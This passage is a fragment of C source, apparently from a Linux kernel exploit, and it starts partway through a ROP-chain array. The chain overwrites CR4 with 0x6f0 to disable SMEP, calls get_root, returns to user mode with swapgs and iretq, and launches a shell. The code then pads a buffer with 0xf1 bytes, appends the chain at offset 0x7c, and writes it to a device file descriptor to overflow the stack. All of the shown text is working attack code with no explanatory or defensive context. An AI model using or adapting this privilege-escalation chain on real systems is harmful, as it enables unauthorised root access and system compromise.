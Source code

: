```c
        0x6f0,
        rdi_to_cr4, // cr4 = 0x6f0
        mmap_base + 0x10000,
        (unsigned long)get_root,
        swapgs, // swapgs; pop rbp; ret
        mmap_base,   // rbp = base
        iretq,
        (unsigned long)get_shell,
        user_cs,
        user_rflags,
        mmap_base + 0x10000,
        user_ss
    };

    char * payload = malloc(0x7c + sizeof(rop_chain));
    memset(payload, 0xf1, 0x7c + sizeof(rop_chain));
    memcpy(payload + 0x7c, rop_chain, sizeof(rop_chain));
    write(fd, payload, 0x7c + sizeof(rop_chain));
    return 0;
}
```